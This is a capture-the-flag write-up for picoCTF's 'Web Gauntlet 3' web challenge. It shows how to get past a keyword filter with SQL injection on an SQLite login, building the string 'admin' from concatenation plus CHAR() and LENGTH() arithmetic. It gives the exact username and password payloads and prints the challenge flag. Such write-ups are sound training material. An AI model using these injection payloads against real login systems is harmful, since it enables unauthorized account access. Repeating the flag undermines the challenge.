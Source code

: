 # Web Gauntlet 3 ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Last time, I promise! Only 25 characters this time. <br>
Log in as admin Site: http://mercury.picoctf.net:29772/  <br>
Filter: http://mercury.picoctf.net:29772/filter.php <br>

Hints:
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- sqlite


## Write-up: 📝
This challenge only have 1 round

## Solution: 💯

Filter: `or and true false union like = > < ; -- /* */ admin`

In this chall, we try to create an injection in **username** which should cover and ignore the **password**. We use concatenation `||` to create string `admin` in **username**
. We try to combine with password to generate the character in `admin` string. 

Our payload look like this: `SELECT username, password FROM users where username='admi'||{n}`

We get the `'n'` character by `CHAR()` function and specify the exact number we need in [Ascii Table](https://www.asciitable.com/) ('n' is equivalent to **110** in decimal). We take an advantage of `LENGTH()` function to control the value. And now we will calculate: The must-have string is ` AND password=` has 14 characters. We need **110** so it ought to be multiplied by **7** and add by **12**. 

The actual query string is below: `SELECT * FROM users where username='admi'||(CHAR(12+LENGTH(' AND password=')*7))||'' `

**Note:** This chall requires the sum of length of username and password **< 35**. In some case if our payload's size is too large, we should  decrease it by omitting redundant characters in **password** or instead of string, we should move to calculate with number. 
**Note:** May be  using **division operator** (In this case is `1540/LENGTH(' AND password=')` for more easy calculations.

User: `admi'||(CHAR(12+LENGTH(` 

Pass: `)*7))||'`

Then move to **filter.php** file to get the flag.

#### The Flag (for reference): ✔️
```
picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
```

